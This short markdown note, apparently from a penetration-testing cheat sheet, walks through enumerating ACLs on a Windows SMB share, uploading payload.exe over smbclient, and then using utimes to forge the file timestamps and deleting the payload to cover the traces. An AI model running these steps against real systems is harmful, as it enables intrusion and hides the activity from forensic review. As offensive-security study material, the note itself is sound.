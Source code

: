 # Unix Shell

TODO: Convert the command lines to remote enumeration

## 01 - Enumerate

```
$ smbcacls -U "<username>%<password>" //<IP>/C$ "/DevTools/CleanUp.ps1"
```

Using `smbclient` to enumerate the existing files while enabling `showacls`.

```
smb: \> showacls

smb: \> ls "/DevTools/CleanUp.ps1"
```

Disable `showacls`

```
smb: \> showacls
```

## 02 - Exploit

Take note of the timestamps

```
smb: \> allinfo file.txt

smb: \> put payload.exe
```

## 03 - Cleanup


```
smb: \> help utimes
HELP utimes:
		<file name> <create_time> <access_time> <mod_time> <ctime> set times

smb: \> utimes file.txt [YY]YY:MM:DD-hh:mm:ss [YY]YY:MM:DD-hh:mm:ss [YY]YY:MM:DD-hh:mm:ss [YY]YY:MM:DD-hh:mm:ss
```

```
smb: \> rm payload.exe
```